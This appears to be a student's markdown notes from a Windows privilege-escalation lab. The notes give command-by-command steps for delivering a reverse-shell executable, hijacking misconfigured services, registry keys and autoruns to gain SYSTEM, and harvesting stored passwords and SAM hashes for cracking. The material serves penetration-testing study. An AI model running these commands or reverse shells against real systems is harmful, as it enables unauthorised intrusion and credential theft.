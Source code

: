## Windows PrivEsc

# 1- Generate a Reverse Shell Executable:

    - generate metasploit payload
    - host the payload so you can download it <sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py $USER .>
    - copy it to target machine <copy \\$VPN_IP\$USER\reverse.exe C:\PrivEsc\$PAYLOAD.exe>
    - listen for connections <sudo nc -nvlp 53>
    - run the payload <path\to\payload.exe>

---

# 2- Service Exploits - Insecure Service Permissions $SERVICE_NAME=daclsvc :

    - <C:\PrivEsc\accesschk.exe /accepteula -uwcqv $USER $SERVICE_NAME>:
    	accesschk.exe -> allows you to view permissions of files
    	/accepteula   -> allows you to specify the user without asking for confermation
    	-u   -> for selecting the user
    	-w   -> for getting objects that users can write
    	-c   -> for getting objects that users can change
    	-q   -> for getting objects that users can see the output
    	-v   -> what kind of access the user has for that object

    - query service configs <sc qc daclsvc>
    - change the BINARY_PATH_NAME to payload path <sc config $SERVICE binpath= "\"path\to\payload.exe\"">
    - start another netcat listener <sudo nc -nlvp 53>
    - start the service from cmd which will runs as root <sc start daclsvc>

---

# 3- Service Exploits - Unquoted Service Path $SERVICE_NAME=unquotedsvc:

    - get the binary path of the service <sc qc unquotedsvc>
    - "RW BUILTIN\Users" which means the user can read and write in this directory
    - copy the payload to the service folder and update his name where it can runs by the sys <copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe">
    - start the service <net start unquotedsvc>

---

# 4- Service Exploits - Weak Registry Permissions $SERVICE_NAME=regsvc:

    - NOTE: Regestry contains paths for configuration of the hardware and software
    - get the path of the service <sc qc regsvc>
    - get the permissions of the service <C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc>
    - Here there is NT AUTHORITY\INTERACTIVE which means all the logged users has the access to all keys
    - so we need to add new regestry who have the path to reverse shell script <reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f>
    -start the service <net start regvc>

---

# 5- Service Exploits - Insecure Service Executables $SERVICE_NAME=filepermsvc:

    - query the serivce path <sc qc filepermsvc>
    - check the permissions of that file <C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe">
    - we get {RW Everyone \ FILE_ALL_ACCESS} which means every one can read and right to this file
    - copy the payload <copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y>
    - start the service <net start filepermsvc>

---

# 6- Registry - AutoRuns:

    - query the programe path <reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run>
    - after using the followig command <C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"> we get {RW Everyone \ FILE_ALL_ACCESS} so everyone can read and write to this file
    - repplace the program.exe with the pyload <copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y>
    - well this time we use <rdesktop $MACHINE_IP> bcz we replaced the payload with program that automatically run

# 7- Registry - AlwaysInstallElevated

    here we will query the value "AlwaysInstallElevated" from registry key "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" which will check if normal user to install programs to admin level
    <reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated>
    the return of this command is (AlwaysInstallElevated  REG_DWORD    0x1) 0x1 means 1 so yes normal can user can install programs to admin level

# 8- Passwords - Registry

    in this task we will search for the password in the regestry key usign this command <reg query HKLM /f password /t REG_SZ /s>

    /f means find or search for password
    /t means the type of data
    /s means search the entire registry

    <reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"> this command will find the admin autologon password that was stored in reg key

    after finding the password use the following command to get cmd as an admin <winexe -U 'admin%password' //10.10.85.31 cmd.exe>

# 9 - Passwords - Saved Creds

    first list saved creds with the following command <cmdkey /list>

    notice that we have User: WIN-QBA94KB3IOF\admin which means admin creds are stored

    then start a listener and run the exe shell with admin saved creds using runas which will use stored saved creds to execute the shell as an admin here is the following command:

    <runas /savecred /user:admin C:\PrivEsc\reverse.exe>
    runas            : The command to run a program as a different user.
    /savecred        : Saves the credentials of the user account for later reuse.
    /user:admin      : Specifies the user account under which the command should be run (in this case, the "admin" account).
    C:\PrivEsc\reverse.exe : The program to be run with administrator privileges.

# 10 - Passwords - Security Account Manager (SAM)

    in this lab we will get the password from SAM files that are stored in C:\Windows\Repair\SAM & C:\Windows\Repair\SYSTEM

    the creddump7 will help us to extract the hashes
    after getting NTLM hash (2nd one) we will crack it with hashcat using the following command:
         hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
